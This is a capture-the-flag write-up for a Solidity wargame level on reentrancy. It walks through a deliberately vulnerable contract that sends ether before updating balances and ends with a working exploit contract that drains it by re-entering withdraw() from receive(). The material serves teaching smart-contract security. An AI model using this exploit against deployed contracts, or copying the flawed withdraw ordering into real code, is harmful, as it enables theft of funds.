

## Challenge
### Description
The goal of this level is to drain all the ether held by the challenge contract.
The hints boil down to three points.
- Untrusted contracts can execute code at unexpected points.
- A fallback or `receive()` function can run during an ether transfer.
- When attacking a contract, it is sometimes natural to use a separate attack contract instead of an EOA.

So this is not about calling `withdraw()` once; we need a flow that calls the challenge contract again the moment ether is received.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
## Background

---

When a contract receives ether without any calldata, `receive()` runs. The attack contract in this challenge relies on this.
The challenge contract's `withdraw()` sends ether with `msg.sender.call{value: _amount}("")`. If `msg.sender` is a contract, that contract's `receive()` can run.
This `receive()` does not have to just accept ether. The attacker can call the challenge contract's `withdraw()` again from inside `receive()`.

---

`call` is a low-level call. It is used both for function calls and for sending ether.
```solidity
(bool result,) = msg.sender.call{value: _amount}("");
```
Here ether is sent with empty calldata, so the receiving contract's `receive()` runs. Also, unlike `transfer`, it can forward plenty of remaining gas, making it easy for the receiving contract to make further external calls.
When the external call happens before the state change, it becomes a channel for a reentrancy attack.

---

A reentrancy attack is one where, after control is handed to an external contract, a function whose state has not yet been settled is called again.
Let A be a vulnerable bank contract and B the attack contract.
1. B requests a withdrawal from A.
2. A sends ether to B.
3. B's `receive()` runs.
4. Inside `receive()`, B calls A's withdrawal function again.
5. If A's internal balance has not been deducted yet, B can withdraw again against the same balance.

If you send the money first and update the ledger later, withdrawals can be repeated multiple times against the same balance.
## Challenge code analysis

---

`balances` and `donate()` are below.
```solidity
mapping(address => uint256) public balances;

function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
}
```
`balances` records the amount deposited by each address. `donate()` increases the balance of `_to` by `msg.value`.
The attacker sets `_to` to `address(this)`, the attack contract's address. That way, `balances[msg.sender]` as seen by the challenge contract later is the attack contract's balance.

---

The check in `withdraw()` is below.
```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
```
`withdraw()` first checks that `balances[msg.sender]` is at least `_amount`. So far it looks like normal withdrawal logic.
But this check only looks at the ledger balance at function entry. If `withdraw()` is called again mid-withdrawal, the previous call's deduction has not happened yet, so the same check passes again.

---

The external call happens here.
```solidity
(bool result,) = msg.sender.call{value: _amount}("");
if (result) {
    _amount;
}
```
Here the challenge contract sends ether to `msg.sender`. If `msg.sender` is the attack contract, the attack contract's `receive()` runs.
That is, control passes to the attack contract while `withdraw()` is still executing. At this point the attack contract can call `withdraw()` again.
`if (result) { _amount; }` effectively changes no state. It checks `result`, but the ledger update that should happen on success is not inside this block.

---

The state update comes last.
```solidity
balances[msg.sender] -= _amount;
```
The balance deduction runs after the ether transfer. So the order becomes:
1. Check that the balance is sufficient.
2. Send ether first.
3. The receiving contract's `receive()` runs.
4. `receive()` calls `withdraw()` again.
5. Only after returning to the outermost call is the balance deducted.

Had `balances[msg.sender] -= _amount` run before the external call, the re-entered `withdraw()` would have been checked against the already reduced balance.
Also, this is Solidity 0.6.12 code. The addition in `donate()` uses `SafeMath`, but the final subtraction uses plain `-=`. Before Solidity 0.8, default arithmetic does not automatically revert on underflow. However, this solution relies on the ordering of the external call and the state update rather than on underflow.
## Solution
The attack contract first uses `donate()` to create a balance for itself. Then it calls `withdraw(value)`, and the challenge contract sends ether to the attack contract.
The moment it receives ether, the attack contract's `receive()` runs. Calling `withdraw()` again there works because `balances[address(this)]` in the challenge contract has not been deducted yet, so the same amount can be withdrawn again.
The challenge contract makes the external call first and updates its internal ledger later. The attack contract calls `withdraw()` again from the `receive()` triggered by that external call. Repeating this flow drains ether until the challenge contract's actual balance hits zero.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface RE {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
    function balanceOf(address _who) external view returns (uint256 balance);
}

contract Exploit {
    RE public re;
    uint256 public value = 1000000000000000 wei;

    constructor (address _addr) payable {
        re = RE(_addr);
    }

    function attack() public payable{
        re.donate{value:value}(address(this));
        re.withdraw(value);
    }

  receive() external payable {
    uint256 balance = re.balanceOf(address(this));
            if (balance>0) {
            re.withdraw(balance);
        }
    }
}
```

